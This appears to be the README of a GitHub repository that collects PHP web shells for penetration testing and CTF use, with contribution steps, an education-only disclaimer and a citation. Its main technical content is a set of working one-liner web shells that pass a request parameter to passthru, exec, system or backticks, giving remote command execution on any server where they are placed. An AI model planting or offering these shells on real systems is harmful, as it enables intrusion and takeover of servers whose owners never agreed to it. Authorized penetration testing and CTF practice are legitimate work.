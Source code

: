 Contributing
============

To contribute other shells not listed here... Fork, Push the changes to your repo, then before you request for a Pull, make sure to include a simple description of your **php** web-shell and include a screen-shot of the web-shell (as hosted in your localhost).

PHP Webshells
=============

Common PHP shells is a collection of PHP webshells that you may need for your penetration testing (PT) cases or in a CTF challenge. 

Do not host any of the files on a publicly-accessible webserver (unless you know what you are up-to).

These are provided for education purposes only and legitimate PT cases.

I'll keep updating the collection whnever I stumble on any new webshell.

FYI
====


For basic features, I recommend one-liners like :

`<?php echo passthru($_GET['cmd']); ?>`

`<?php echo exec($_POST['cmd']); ?>`

`<?php system($_GET['cmd']); ?>`

`<?php passthru($_REQUEST['cmd']); ?>`

smallest one-liners
===
`` is  backtick character anything b/w this excute directly many developer unaware about this
`<?=`$_GET[C]`?>`


Cite:
=====

```
@software{jacques_pharand_2020_3748072,
  author       = {Jacques Pharand and
                  John Troon and
                  Javier Izquierdo Vera},
  title        = {JohnTroony/php-webshells: Collection CS1},
  month        = apr,
  year         = 2020,
  publisher    = {Zenodo},
  version      = {1.1},
  doi          = {10.5281/zenodo.3748072},
  url          = {https://doi.org/10.5281/zenodo.3748072}
}

```
